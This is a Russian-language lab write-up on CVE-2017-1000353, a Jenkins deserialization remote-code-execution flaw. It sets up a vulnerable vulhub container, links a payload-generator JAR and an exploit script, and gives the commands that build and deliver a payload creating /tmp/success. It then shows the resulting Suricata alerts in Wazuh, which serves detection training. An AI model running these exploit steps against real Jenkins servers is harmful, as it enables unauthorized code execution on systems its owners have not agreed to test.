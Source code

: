 # CVE-2017-1000353

Jenkins версий 2.56 и более ранних, а также 2.46.1 LTS и более ранних уязвимы для удаленного выполнения кода без проверки подлинности. Уязвимость удаленного выполнения кода без аутентификации позволяла злоумышленникам передавать сериализованный Java-объект SignedObject в интерфейс командной строки Jenkins, который затем десериализовался с использованием нового ObjectInputStream в обход существующего механизма защиты на основе черного списка.

### Экслуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После успешного запуска по адресу http://ваш-ip:8080/ будет доступна страница Jenkins

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

Для реализации данной уязвимости нужно сгенерировать полезную нагрузку с помощью этого [файла](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
```

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Далее с помощью [эксплоита](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py) доставить полезную нагрузку&#x20;

```
python3 exploit.py http://ваш-ip:8080 jenkins_poc.ser
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

В результате эксплуатации был создан файл /tmp/success&#x20;

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>
